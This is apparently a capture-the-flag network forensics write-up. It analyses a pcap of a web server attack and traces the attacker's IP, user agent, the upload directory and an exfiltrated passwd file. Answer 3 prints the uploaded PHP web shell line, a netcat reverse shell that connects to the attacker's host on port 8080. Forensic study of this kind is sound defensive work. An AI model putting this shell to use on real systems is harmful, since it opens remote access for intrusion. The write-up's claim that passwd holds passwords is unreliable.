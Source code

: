 
# Web Strike Analysis

Category: Network Forensics

## Scenario
> An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

* This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to Statistics => Conversations => IPv4. The IP address of the attacker is 117.11.88.128. Plugging this into ipgeolocation.io, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)*ipgeolocation.io reponse*

2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

* The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0.

3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

* Going to the Statistics => Protocol Hierarchy, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)*Wireshark snapshot*

* I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

* Line of code:

    
     <?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);

4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

* Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the [http://shoporoma.com/reviews/uploads/](http://shoporoma.com/reviews/uploads/`) directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

* This was straightforward, as we already found out from the PHP snippet that the attacker leverages port 8080.

6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

* Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

## **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (upload(2).php). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the **passwd **file containing passwords for different accounts.
